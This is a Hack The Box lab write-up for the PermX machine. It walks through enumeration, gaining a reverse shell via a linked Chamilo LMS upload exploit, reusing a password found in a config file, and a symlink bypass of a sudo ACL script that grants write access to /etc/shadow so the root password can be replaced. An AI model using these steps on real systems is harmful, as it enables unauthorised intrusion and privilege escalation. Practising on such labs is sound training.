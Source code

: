 # PermX CTF

## Initial foothold :

### Nmap discovery :

```bash
Nmap discovery :
┌──(david㉿kali)-[~]
└─$ sudo nmap -p- -sV -sC 10.129.219.20
[sudo] password for david: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-08 15:02 CEST
Nmap scan report for 10.129.219.20
Host is up (0.012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.83 seconds
```
We add http://permx.htb to our hosts file 

### Vhost scan with gobuster :

Since there is a redirection for each domain with status 302 I decided to put the output in a file then with a grep command get rid of the junk :

```bash
┌──(david㉿kali)-[/mnt/kali-extended/hackthebox]
└─$ gobuster vhost -u http://permx.htb/ -w /usr/share/wordlists/dns/bitquark-subdomains-top100000.txt  --append-domain > out.txt

┌──(david㉿kali)-[/mnt/kali-extended/hackthebox]
└─$ grep -v "Status: 302" out.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://permx.htb/
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/dns/bitquark-subdomains-top100000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: lms.permx.htb Status: 200 [Size: 19347]
Found: *.permx.htb Status: 400 [Size: 301]
```
We found a subdomain we add it to our hosts file 

### Directory scan on http://lms.permx.htb/ with gobuster :

```bash
┌──(david㉿kali)-[/mnt/kali-extended/hackthebox]
└─$ gobuster dir -u http://lms.permx.htb/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x txt,html,php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://lms.permx.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/terms.php            (Status: 200) [Size: 16127]
/web                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/web/]
/index.php            (Status: 200) [Size: 19356]
/bin                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/bin/]
/main                 (Status: 301) [Size: 313] [--> http://lms.permx.htb/main/]
/robots.txt           (Status: 200) [Size: 748]
/documentation        (Status: 301) [Size: 322] [--> http://lms.permx.htb/documentation/]
/src                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/src/]
/user.php             (Status: 302) [Size: 0] [--> whoisonline.php]
/license.txt          (Status: 200) [Size: 1614]
/app                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/app/]
/vendor               (Status: 301) [Size: 315] [--> http://lms.permx.htb/vendor/]
/certificates         (Status: 301) [Size: 321] [--> http://lms.permx.htb/certificates/]
/custompages          (Status: 301) [Size: 320] [--> http://lms.permx.htb/custompages/]
/web                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/web/]
Progress: 566832 / 566836 (100.00%)
===============================================================
Finished
===============================================================
```
On the formular I decided to use the default credentials to try :
admin:DigitalOcean7
But wihtout result.

So i search for cve and found this POC : https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc?tab=readme-ov-file
It works great after following the procedure we have a reverse shell

## Privilege escalation from www-data to mtz :

I run a simple python server on my local machine 
And retrieve a linpeas executable with wget on the remote machine

After running linpeas I found a password on a php configuration file :
![password](https://image.noelshack.com/fichiers/2024/28/1/1720456843-screenshot-from-2024-07-08-16-19-59.png)

Don't be confuse by the bcrypt in the config file the password is not encrypted

So we have the following credentials mtz:03F6lY3uXAP2bkW8

Congrats we can cat the user file in the home directory

## Privelege escalation from mtz to root :

I run sudo -l :

```bash
mtz@permx:~$ sudo -l
sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```
Good we can run alc.sh as root user, we check the file :

```bash
mtz@permx:~$ cat /opt/acl.sh	
cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
Basically, this is a simple bash script that allows an user to modify the permission of a file. 
We can see that there is a flaw here, the check "$target" != /home/mtz/* || "$target" == *..* can be bypassed by using a symlink. For example, creating a symlink to the root folder

```bash
ln -s / root_symlink
```
And executing the script like this :
```bash
sudo /opt/acl.sh mtz rwx /home/mtz/root_symlink/etc/shadow
```
Will allow us to see the content of /etc/shadow and modify it !

In our local machine we type the following command and type test when it asked for a password :

```bash
┌──(david㉿kali)-[~]
└─$ mkpasswd --method=yescrypt
Password: 
$y$j9T$eMM9aLbHznCE2omQKTwRG1$rM3Umy9s5ucyGAI6MSd9JxPgy7Fli8Gbf9UdgpB6Ze4
```
We add the hash to the /etc/shadow file and we su as root with the new password and you can cat the root.txt file 
